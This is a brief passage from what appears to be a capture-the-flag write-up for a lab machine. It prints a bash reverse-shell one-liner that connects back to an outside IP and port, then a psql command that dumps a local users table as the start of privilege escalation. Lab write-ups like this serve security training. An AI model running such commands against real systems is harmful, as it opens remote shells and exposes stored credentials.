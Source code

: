 ![picture 10](/assets/images/5c620ab08f7ea2b7bc7fad95a3b22478ab8028e449263e682465ddcee7398be2.png)  

I used following TCP reverse shell for bash, i've just fully URL encoded:

```sh
bash -c "bash -i >& /dev/tcp/10.10.16.91/4444 0>&1"
```

Shell should pop:

![picture 11](/assets/images/c723bb806b659de8ee63702c3532739a205bda5e30857ad4d2cf2af2016d3fa1.png)  

# Privilege escalation to bill from www-data

```
psql -h 127.0.0.1 -U dbuser -d broscience -W -c "select * from users;"
```

![picture 12](/assets/images/aa8ec41d26ef9c37e711668f2e7aad69da7636a6d5ff4074afc863025dbdceeb.png)  
